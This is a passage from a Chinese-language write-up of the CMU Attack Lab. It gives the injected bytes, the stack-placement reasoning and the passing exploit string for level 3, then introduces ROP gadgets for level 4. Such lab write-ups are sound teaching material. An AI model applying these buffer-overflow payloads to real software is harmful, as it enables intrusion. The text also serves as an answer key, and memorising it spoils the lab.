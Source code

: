 这段代码的机器码是 `bf a8 dc 61 55 68 fa 18 40 00 c3`。

{% note warning %}
当调用 hexmatch 和 strncmp 时，会把数据压入到栈中，有可能会覆盖 getbuf 栈帧的数据，所以传进去字符串的位置必须小心谨慎。
{% endnote %}

```c
int hexmatch( unsigned val, char *sval )
{
    char    cbuf[110];
    char    *s = cbuf + random() % 100;
    sprintf( s, "%.8x", val );
    return(strncmp( sval, s, 9 ) == 0);
}
```

这因为 `s` 的位置是随机的，保存在 `getbuf` 的数据可能会被 `hexmatch` 重写。所以放在 `getbuf` 的栈帧中并不安全，所以需要放到 `test` 的栈帧中。

![](https://res.cloudinary.com/ouyangsong/image/upload/q_auto/1543736074.png)

得到 `level3` 文件如下：

```
bf a8 dc 61 55 68 fa 18 40 00
c3 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00
```

验证结果：

```sh
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:BF A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

## 第四关

针对前三关描述的缓冲区溢出的攻击，现代的编译器和操作系统实现了很多机制来避免。

1. 栈随机化：栈的位置在程序每次运行时都有变化
2. 栈破坏检测：在栈帧中任何局部缓冲区和栈状态之间存储一个特殊的金丝雀值
3. 限制可执行代码区域

在 ROP 中，因为限制了不能插入可执行代码。所以需要在程序中找到特定的指令序列，并且以 `ret` 结尾，这种叫做 `gadget`。
每一个 `gadget` 包含一系列指令，跳转到下一个 `gadget` 中，就这样连续执行一系列的指令序列，对程序造成攻击。
